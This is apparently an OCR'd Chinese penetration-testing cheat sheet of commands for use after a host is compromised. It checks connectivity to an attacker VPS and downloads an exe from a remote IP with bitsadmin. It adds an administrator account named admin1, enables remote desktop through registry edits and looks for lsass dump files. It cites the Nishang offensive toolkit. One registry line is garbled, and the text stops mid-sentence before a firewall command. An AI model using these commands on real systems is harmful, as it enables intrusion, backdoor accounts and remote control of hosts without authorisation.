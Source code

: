 > reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
>
> Settings" /v AutoConfigURL  //引子 t0stmailpowershell-nishang

> https://github.com/samratashok/nishang

### 其他常用命令

> ping    icmp 连通性
>
> nslookup www.baidu.com vps-ip dns 连通性
>
> dig @vps-ip www.baidu.com
>
> curl vps:8080  http 连通性
>
> tracert
>
> bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
>
> fuser -nv tcp 80 查看端口 pid
>
> rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
>
> where file win 查找文件是否存在 
>
> 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
>
> netstat -apn | grep 8888  kill -9 PID  查看端口并 kill

### 远程登录内网主机

判断是内网，还是外网，内网转发到 vps

> netstat -ano  没有开启 3389 端口,复查下
>
> tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.

### 在主机上添加账号

> net user admin1 admin1 /add & net localgroup administrators admin1 /add

如不允许远程连接，修改注册表 

> REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
>
> REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f

如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
